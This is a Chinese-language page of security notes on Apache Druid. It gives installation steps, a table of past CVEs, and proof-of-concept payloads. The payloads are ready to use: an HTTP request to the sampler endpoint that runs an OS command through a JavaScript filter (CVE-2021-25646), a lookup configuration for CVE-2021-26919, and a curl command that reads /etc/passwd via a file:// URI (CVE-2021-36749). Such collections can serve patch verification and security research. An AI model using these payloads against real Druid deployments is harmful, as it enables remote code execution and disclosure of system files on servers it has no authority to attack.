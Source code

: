 # Apache Druid

Apache Druid是面向列的分布式数据存储，由Java编写。其他类似的column-oriented型数据库，参考： https://en.wikipedia.org/wiki/List_of_column-oriented_DBMSes

官方文档： https://druid.apache.org/docs/latest/tutorials/index.html

源码下载： https://github.com/apache/druid

安装包下载： https://archive.apache.org/dist/druid/

Linux下安装、启动（要求Java8）
```
tar -zxvf apache-druid-0.17.0-bin.tar.gz
cd /apache-druid-0.17.0/bin
./start-nano-quickstart
```
访问`http://localhost:8888`

历史漏洞

|漏洞编号|漏洞类型|影响版本|
|:----:|:----:|:----:|
|CVE-2021-36749|文件读取|< 0.21.0|
|CVE-2021-26920|文件读取|0.20.x|
|CVE-2021-26919|RCE|< 0.20.2|
|CVE-2021-25646|RCE|<= 0.20.0|
|CVE-2020-1958|身份认证绕过|0.17.0|

## CVE-2020-1958
Ref： https://github.com/ggolawski/CVE-2020-1958

## CVE-2021-25646
Ref： https://www.zerodayinitiative.com/blog/2021/3/25/cve-2021-25646-getting-code-execution-on-apache-druid

POC
```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
Content-Length: 994
Connection: close


{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('open -a Calculator')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

## CVE-2021-26919
POC
```
{
    "type": "pollingLookup",
    "pollPeriod": "PT10M",
    "dataFetcher":
    {
        "type": "jdbcDataFetcher",
        "connectorConfig": "jdbc://mysql://localhost:3306/my_data_base",
        "table": "lookup_table_name",
        "keyColumn": "key_column_name",
        "valueColumn": "value_column_name"
    },
    "cacheFactory":
    {
        "type": "onHeapPolling"
    }
}
```

## CVE-2021-36749

页面上点击load data，然后选择`http(s)://`，点击connect后在URIs处填入`file://etc/passwd`即可读取文件
POC
```
curl http://127.0.0.1:8888/druid/indexer/v1/sampler?for=connect -H "Content-Type:application/json" -X POST -d "{\"type\":\"index\",\"spec\":{\"type\":\"index\",\"ioConfig\":{\"type\":\"index\",\"firehose\":{\"type\":\"http\",\"uris\":[\" file:///etc/passwd \"]}},\"dataSchema\":{\"dataSource\":\"sample\",\"parser\":{\"type\":\"string\", \"parseSpec\":{\"format\":\"regex\",\"pattern\":\"(.*)\",\"columns\":[\"a\"],\"dimensionsSpec\":{},\"timestampSpec\":{\"column\":\"no_ such_ column\",\"missingValue\":\"2010-01-01T00:00:00Z\"}}}}},\"samplerConfig\":{\"numRows\":500,\"timeoutMs\":15000}}"
```
